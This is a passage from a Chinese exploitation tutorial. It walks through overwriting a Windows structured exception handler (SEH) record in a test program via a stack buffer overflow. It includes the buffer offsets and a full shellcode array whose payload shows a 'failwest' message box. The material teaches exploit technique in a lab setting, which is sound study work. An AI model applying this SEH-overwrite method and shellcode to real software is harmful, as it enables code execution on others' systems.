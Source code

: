 单击 OllyDbg 菜单“View”中的“SEH chai n”，Ollydbg 会显示出目前栈中所有的 S.E.H 结构的位置和其注册的异常回调函数句柄，如图 6.1.4 所示。

<img src="images/05/seh链表和结构体.png" width="480">

OllyDbg 当前线程一共安装了 3 个 S.E.H，离栈顶最近的位于 0x0012FF68，如果在当前函数内发生异常，首先使用的将是这个 S.E.H。我们回到栈中看看这个 S.E.H 的状况，OllyDbg 已经自动为它加上了注释，如图 6.1.5 所示。

这个 S.E.H 就在离 EBP 与函数返回地址不远的地方，0x0012FF68 为指向下一个 S.E.H 的链表指针，0x0012FF6C 处的指针 0x00401214 则是我们需要修改的异常回调函数句柄。

剩下的工作就是组织缓冲区，把 0x0012FF6C 处的回调句柄修改成 shellcode 的起始地址0x0012FE98。
缓冲区起始地址 0x0012FE98 与异常句柄 0x0012FF6C 之间共有 212 个字节的间隙，也就是说，超出缓冲区 12 个字节后的部分将覆盖 S.E.H。

仍然使用弹出“failwest”消息框的 shellcode 进行测试，将不足 212 字节的部分用 0x90 字节补齐；213~216 字节使用 0x0012FE98 填充，用于更改异常回调函数的句柄；最后删去代码
中的中断指令_asm int 3。

```
char shellcode[] = 
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x98\xFE\x12\x00"; 
```

这时操作系统将错误地使用 shellcode 去处理除零异常，从而使植入的代码获得执行。
